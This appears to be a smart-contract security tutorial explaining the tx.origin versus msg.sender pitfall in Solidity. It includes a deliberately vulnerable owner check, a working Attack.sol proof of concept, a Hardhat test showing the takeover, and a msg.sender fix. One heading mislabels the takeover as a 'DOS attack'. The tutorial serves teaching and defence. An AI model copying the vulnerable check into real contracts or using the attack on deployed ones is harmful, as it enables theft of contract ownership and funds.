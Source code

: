 # Attack with tx.origin

`tx.origin` is a global variable which returns the address that created the original transaction. It is kind of similar to `msg.sender`, but with an important caveat. We will learn how incorrect use of tx.origin could lead to security vulnerabilities in smart contracts.

🤔 What is tx.origin?

> It is a global variable

## What is tx.origin?

`tx.origin` is a global variable which returns the address of the account which sent the transaction. Now you might be wondering then what is `msg.sender` 🤔. The difference is that `tx.origin` refers to the original external account (which is the user) that started the transaction and `msg.sender` is the immediate account that called the function and it can be an external account or another contract calling the function.

So for example, if User calls Contract A, which then calls contract B within the same transaction,`msg.sender` will be equal to `Contract A` when checked from inside `Contract B`. However, `tx.origi`n will be the `User` regardless of where you check it from.

🤔 Difference between tx.origin and msg.sender?

> msg.sender refers to the immediate account that called the function whereas tx.origin refers to the original external account that started the transaction

🤔 Can msg.sender and tx.origin have the same value sometimes?

> Yes

## DOS Attack on a smart contract

#### What will happen?

There will be two smart contracts - `Good.sol` and `Attack.sol`. `Good.sol`. Initially the owner of `Good.sol` will be a good user. Using the attack function `Attack.sol` will be able to change the owner of `Good.sol` to itself.

First, let's create a contract named `Good.sol` which is essentially a simpler version of `Ownable.sol` that we have previously used.

```sh
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;


contract Good  {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function setOwner(address newOwner) public {
        require(tx.origin == owner, "Not owner" );
        owner = newOwner;
    }
}
```

Now, create a contract named `Attack.sol` within the `contracts` directory and write the following lines of code

```sh
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.4;

import "./Good.sol";

contract Attack {
    Good public good;
    constructor(address _good) {
        good = Good(_good);
    }

    function attack() public {
        good.setOwner(address(this));
    }
}
```

Now lets try immitating the attack using a sample test, create a new file under `test` folder named `attack.js` and add the following lines of code to it

```sh
const { expect } = require("chai");
const { BigNumber } = require("ethers");
const { ethers, waffle } = require("hardhat");

describe("Attack", function () {
  it("Attack.sol will be able to change the owner of Good.sol", async function () {
    // Get one address
    const [_, addr1] = await ethers.getSigners();

    // Deploy the good contract
    const goodContract = await ethers.getContractFactory("Good");
    const _goodContract = await goodContract.connect(addr1).deploy();
    await _goodContract.deployed();
    console.log("Good Contract's Address:", _goodContract.address);

    // Deploy the Attack contract
    const attackContract = await ethers.getContractFactory("Attack");
    const _attackContract = await attackContract.deploy(_goodContract.address);
    await _attackContract.deployed();
    console.log("Attack Contract's Address", _attackContract.address);

    let tx = await _attackContract.connect(addr1).attack(); // *** attack which address of user ***
    await tx.wait();

    // Now lets check if the current owner of Good.sol is actually Attack.sol
    expect(await _goodContract.owner()).to.equal(_attackContract.address);
  });
});
```

When the user calls `attack` function with `addr1`, `tx.origin` is set to `addr1`. `attack` function further calls `setOwner` function of `Good.sol` which first checks if `tx.origin` is indeed the owner which is `true` because the original transaction was indeed called by `addr1`. After verifying the owner, it sets the owner to `Attack.sol`

And thus attacker is successfully able to change the owner of `Good.sol` 🤯

## Real Life Example
[THORChain Hack #2 here](https://rekt.news/thorchain-rekt2/)

🤔 Is it better to use msg.sender or tx.origin?

> msg.sender is better

## Prevention

- You should use msg.sender instead of tx.origin to not let this happen

Example:

```sh
function setOwner(address newOwner) public {
    require(msg.sender == owner, "Not owner" );
    owner = newOwner;
}
```





